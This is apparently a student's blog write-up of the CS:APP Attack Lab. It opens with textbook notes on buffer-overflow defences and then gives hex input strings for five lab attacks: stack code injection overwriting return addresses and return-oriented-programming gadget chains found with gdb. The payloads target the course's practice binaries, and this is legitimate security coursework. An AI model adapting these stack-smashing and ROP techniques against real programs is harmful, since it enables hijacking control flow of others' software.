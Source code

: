 ```yaml
---
title: Lab 3 Attack Lab
date: 2021-02-01 08:51:48
tags: 
- CSAPP

categories: 
- Study

sidebar: True
lang: en-US
---
```



<!--more-->


## Textbook 3.10 Combining Control and Data in Machine-level Programs

- Function Pointers
  ```C
  int fun(int x, int *p);
  
  int (*fp)(int, int *);
  fp = fun;
  
  int y = 1;
  int result = fp(3, &y);
  ```
- Out of bounds memory and buffer overflow leaves program vulnerable to attacks
- by corrupting the `ret` address
- To thwart buffer overflow attacks
  - **stack randomization**: make it harder for attacker to guess the exact ret address, attackers may use `nop sled` to bypass it
  - **stack corruption detection**  maintain a `canary` value, to check whether buffer overflows
  - **limit executable code regions** three mode of access in instructions for memory: read/write/execute. For historic reasons, x86 will introduce significant inefficiencies while AMD NX(no-execute) bit has no peanalty in efficiency

- To support variable stack size, `$rbp` is used as a frame pointer. Earlier versions of code always uses `$rbp`, while in x86-64 codes, it is used only when stack is of variable size. 


## Attack 1

By making a breakpoint at `getbuf`, we can know the location of return address in the stack frame. We simply fill the buffer area and make an overflow to overwrite the return address to the entry of touch1.

The entry of `touch1` can be found through `disas touch1`.

```
01 00 00 00 00 00 00 00 
02 00 00 00 00 00 00 00 
03 00 00 00 00 00 00 00 
04 00 00 00 00 00 00 00 
05 00 00 00 00 00 00 00 # buf
c0 17 40 00 00 00 00 00 # return add of touch1
```


## Attack 2

The code we will inject is as follows. We put them at the beginning of the buffer area, and then overwrite the return address with the pointer to the beginning of our injection code. At the end of our code, we will call a `ret` instruction. It will check the return address on `%rsp-8`.

In order to jump to `touch2` function, in addition to the return address of our injection code, we also need to overwrite an address to the entry of `touch2` below that return address.


```
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 8b 3c 25 e4 44 60    mov    0x6044e4,%rdi
   7:   00 
   8:   c3                      retq   
```

```
48 8b 3c 25 e4 44 60 00 # mov cookie to rdi and ret
c3 00 00 00 00 00 00 00 # jmp to ret address
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 # return to inj code (buf at line 1)
ec 17 40 00 00 00 00 00 # (on return) jmp destination
```

## Attack 3

Here we need to pass a pointer instead of a value to the `touch3` function.

```
0000000000000000 <.text>:
   0:   48 c7 c7 b0 dc 61 55    mov    $0x5561dcb0,%rdi  # address of cookie string
   b:   c3                      retq   
```

The address should point to a string in the stack frame. Here we append a cookie string at the end of the input. We can locate the address of that string in gdb, so that we can finish encoding the injection code.

```
48 c7 c7 b0 dc 61 55 c3 # mov cookie to rdi and ret
00 00 00 00 00 00 00 00 # jmp
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 # return to inj code (buf at line 1)
fa 18 40 00 00 00 00 00 # (on return) jmp destination
35 39 62 39 39 37 66 61 # <- beg of cookie string
00
```
::: tip
Note that our input string is at a higher address of the stack. Therefore, future function calls that may modify the stack will not interfere with our string. Therefore, the `00` buffer space is not a desired place for the cookie string, since it will be popped when `getbuf` is returned. 
:::

## Attack 4

We first use `objdump -h rtarget` to check the instructions provided by the `farm.c`. After some efforts in observation, we have found two useful utilities.

```
(gdb) x /3i 0x4019ab
   0x4019ab <addval_219+4>:     pop    %rax
   0x4019ac <addval_219+5>:     nop
   0x4019ad <addval_219+6>:     retq 
```

```
(gdb) x /2i 0x4019a3
   0x4019a3 <addval_273+3>:     mov    %eax,%edi
   0x4019a5 <addval_273+5>:     retq   
```

The return-oriented programming is designed as follows. First, we pop a value (the cookie as integer) from stack to a register`%eax`. Then the stack frame pointer will move down a byte. Then it will be redirected to the next utility that pass the value in `%eax` to function argument `%edi`. Then we call the function `touch2`, the attack is done.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
ab 19 40 00 00 00 00 00 # return to rax
fa 97 b9 59 00 00 00 00 # pop to rax
a3 19 40 00 00 00 00 00 # return to mov 
ec 17 40 00 00 00 00 00 # return to touch2
```


## Attack 5

By comparing the helper table in Appendix 2 and the instructions in `farm.c`, we can identify two parameter passing chains. One for `movl` and one for `movq`. Both start from `%rax`, where there is a `pop %rax` utility to make use of.

The attack scheme is designed as follows.

### Move rsp pointer to rdi

First, we need to store a `rsp` pointer that points to the cookie string so that we can pass it to the argument of `touch3`. We should move that `rsp` to a register. Note that the `rsp` can be quite large, so we should use the `movl` chain.

```
gdb) x /2i 0x401a06
   0x401a06 <addval_190+3>:     mov    %rsp,%rax
   0x401a09 <addval_190+6>:     retq  
(gdb) x /3i 0x4019a2
   0x4019a2 <addval_273+2>:     mov    %rax,%rdi
   0x4019a5 <addval_273+5>:     retq   
   0x4019a6 <addval_273+6>:     retq 
```

### Move Small number to rsi

Note that `rsp` keeps changing, so an offset is needed. Luckily, we have a utility function `add_xy`. We can make use of the `movl` chain to load an offset and add it to the previously obtained `rsp`.

```
(gdb) x /2i 0x401a07
   0x401a07 <addval_190+4>:     mov    %esp,%eax
   0x401a09 <addval_190+6>:     retq  
(gdb) x /3i 0x401a42
   0x401a42 <addval_487+2>:     mov    %eax,%edx
   0x401a44 <addval_487+4>:     test   %al,%al
   0x401a46 <addval_487+6>:     retq
(gdb) x /3i 0x401a69
   0x401a69 <getval_311+1>:     mov    %edx,%ecx
   0x401a6b <getval_311+3>:     or     %bl,%bl
   0x401a6d <getval_311+5>:     retq  
(gdb) x /3i 0x401a27
   0x401a27 <addval_187+2>:     mov    %ecx,%esi
   0x401a29 <addval_187+4>:     cmp    %al,%al
   0x401a2b <addval_187+6>:     retq  
```

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```


### Solution

As before, the cookie string will be stored at the highest address. We obtain an `rsp` value first, then calculate the offset. By adding them together and passing the result to `touch3`, the attack is done.

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  
06 1a 40 00 00 00 00 00 # [mov %rsp, %rax], offset from here
a2 19 40 00 00 00 00 00 # [mov %rax, %rdi]
ab 19 40 00 00 00 00 00 # return to [pop %rax]
48 00 00 00 00 00 00 00 # pop the offset to %rax
42 1a 40 00 00 00 00 00 # [mov %eax, %edx]
69 1a 40 00 00 00 00 00 # [mov %edx, %ecx]
27 1a 40 00 00 00 00 00 # [mov %ecx, %esi]
d6 19 40 00 00 00 00 00 # call [add_xy] to add rsp and offset to %eax
a2 19 40 00 00 00 00 00 # [mov %rax, %rdi]
fa 18 40 00 00 00 00 00 # return to touch3
35 39 62 39 39 37 66 61 # [object string], offset to here
00 00 00 00 00 00 00 00
```
